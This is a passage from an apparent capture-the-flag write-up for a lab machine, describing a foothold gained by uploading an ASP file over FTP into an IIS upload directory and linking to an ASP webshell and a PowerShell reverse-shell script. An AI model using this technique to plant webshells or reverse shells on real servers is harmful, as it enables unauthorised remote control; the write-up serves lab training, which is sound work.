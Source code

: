 ## Foothold

### FTP & Upload Dir

**Guess**: ftp dir = iis/upload dir

**POC**:

```console
ftp> put imqwe.asp
local: imqwe.asp remote: imqwe.asp
229 Entering Extended Passive Mode (|||49711|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************|    14       26.04 KiB/s    --:-- ETA
226 Transfer complete.
14 bytes sent in 00:00 (0.02 KiB/s)

------------------------------------------------------------------------------

└─╼$ curl http://10.129.228.122/upload/imqwe.asp
this is qwe.
```

After trying different file extensions, aspx is restricted while asp is ok. So, look forward to uploading asp command page into IIS server.

**Exploit**:

- https://github.com/tennc/webshell/blob/master/asp/webshell.asp
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

![image-20240223191741349](./Conceal.assets/image-20240223191741349.png)

